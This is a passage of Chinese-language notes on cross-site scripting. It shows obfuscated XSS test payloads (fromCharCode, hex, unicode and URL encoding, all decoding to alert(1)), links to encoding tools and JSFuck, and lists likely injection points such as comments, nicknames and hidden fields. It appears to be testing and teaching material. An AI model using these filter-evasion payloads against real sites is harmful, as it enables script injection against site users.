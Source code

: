 ```php
# 进制编码
# 工具链接
1、https://www.qqxiuzi.cn/bianma/ascii.htm
2、http://www.ku51.net/ox2str/
3、http://bianma.55cha.com/
# 1、10进制ascii码
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>
<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,49,41))>
# 2、十六进制字符串
<img src=x onerror=eval("\x61\x6c\x65\x72\x74\x28\x31\x29")>
# 3、unicode
<img src=x onerror=eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")>
```

```php
# url编码
# 工具链接
http://www.ab173.com/enc/urlencode.php
%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E
```

```php
# jsfuck
# 工具链接
http://www.jsfuck.com/
```



## 二、漏洞特征

### 1、场景

```php
# 反射型
1、搜索
2、跳转
```

```php
# 存储型
1、用户账号
2、昵称
3、评论
4、留言板
5、文章标题
6、文章标签
7、文章正文
```

### 2、发现

```php
# HTML
1、文本
2、标签属性
3、列表
4、隐藏的提交参数hidden
```
